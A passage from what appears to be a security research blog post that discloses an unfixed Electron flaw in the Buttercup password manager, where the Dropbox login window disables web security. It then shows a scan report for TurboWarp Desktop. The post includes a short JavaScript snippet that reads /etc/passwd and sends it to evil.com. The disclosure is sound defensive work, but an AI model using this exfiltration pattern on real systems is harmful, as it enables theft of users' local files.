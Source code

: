 This is a lot of warnings for a password manager, but of particular interest is `WebPreferences:webSecurity` which means the app disables web security (such as the same-origin policy) for at least one window. By examining the source code, we [found](https://github.com/buttercup/buttercup-desktop/blob/cb98fe711b555fb1b0e3f7ffdc3a85cd844d7307/source/renderer/services/auth3rdParty.ts#L15) that the Dropbox login process was responsible for this warning. Effectively, the code does:

```js
const authWin = new BrowserWindow({
    parent: currentWindow,
    show: false,
    alwaysOnTop: true,
    webPreferences: {
        nodeIntegration: false,
        webSecurity: false,
        sandbox: true
    }
});
authWin.loadURL("https://dropbox.com/login");
```

Because disabling the same-origin policy in Electron also allows reading arbitrary files, this effectively grants Dropbox the ability to read any file on your computer by simply making a request to the file:// protocol:

```js
fetch('file:///etc/passwd')
   .then(r => r.text())
   .then(text => fetch('https://evil.com/' + text));
```

This permission could be abused by dropbox.com as well as any page it redirects to, such as SSO providers.

While it is fair to consider one's storage provider and one's SSO provider to be reasonably trustworthy and unlikely to be actively malicious, we still consider this a violation of the threat model of an encrypted password manager. After all, if the storage provider were truly completely trustworthy, there would be no reason to encrypt the password database at all.

We reported this bug to Buttercup several times without response. During the time since the original version of this presentation, the Buttercup project [has been closed](https://gist.github.com/perry-mitchell/43ebfcec4d874b77a704be1d4f2262e6) so this bug is unlikely to be fixed.

## Conclusion

The overall security landscape of Electron apps is very poor with a vast majority of apps disabling sandboxing, and half of apps enabling Node.js integration. Hopefully, this can be improved over time, although the trend line extrapolating from the Inspectron dataset and the Bananatron dataset is flat at best.

Of course, we did also analyze the Electron app I build ([TurboWarp Desktop](https://desktop.turbowarp.org/)). TurboWarp has been following the Electron security guidelines for years, so the report is relatively short:

```json
{
    "AppName": "turbowarp-desktop",
    "AppVersion": "1.12.3",
    "ElectronVersion": "29.4.1",
    "ChromiumVersion": "122.0.6261.156",
    "RiskyItems": [
        "CSP",
        "CommandLineRisk:--host-resolver-rules=MAP device-manager.scratch.mit.edu 127.0.0.1",
        "ExternalShellRisk",
        "Fuses:EnableCookieEncryption",
        "Fuses:EnableEmbeddedAsarIntegrityValidation",
        "Fuses:GrantFileProtocolExtraPrivileges",
        "IPCMessagesUnchecked"
    ]
```
